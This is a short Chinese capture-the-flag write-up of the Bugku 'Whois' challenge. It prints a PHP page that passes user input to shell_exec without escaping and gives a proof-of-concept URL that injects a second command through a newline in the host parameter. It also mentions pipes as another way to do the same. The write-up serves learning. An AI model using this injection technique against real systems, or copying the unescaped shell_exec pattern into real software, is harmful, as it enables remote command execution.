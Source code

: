 # Bugku中Whois的记录

> 本题主要考察linux中的命令截断

## 1. 查看源码
在网页源码中发现query.php，访问可以发现如下源码：
```php
<?php

error_reporting(0);

$output = null;
$host_regex = "/^[0-9a-zA-Z][0-9a-zA-Z\.-]+$/";
$query_regex = "/^[0-9a-zA-Z\. ]+$/";


if (isset($_GET['query']) && isset($_GET['host']) && 
      is_string($_GET['query']) && is_string($_GET['host'])) {

  $query = $_GET['query'];
  $host = $_GET['host'];
  
  if ( !preg_match($host_regex, $host) || !preg_match($query_regex, $query) ) {
    $output = "Invalid query or whois host";
  } else {
    $output = shell_exec("/usr/bin/whois -h ${host} ${query}");
  }

} 
else {
  highlight_file(__FILE__);
  exit;
}

?>

<!DOCTYPE html>
<html>
  <head>
    <title>Whois</title>
  </head>
  <body>
    <pre><?= htmlspecialchars($output) ?></pre>
  </body>
</html>

```

## 2. PoC构造
从上面的源码中可以发现，可以通过构造host和query参数来实现命令执行的效果。问题的关键在于whois命令的截断，这里可以考虑使用换行。
因此可以构造如下PoC:
***/query.php?host=whois.verisign-grs.com%0a&query=ls***

## 3. 思考
- 其他的命令截断方案
  - 可以考虑使用管道
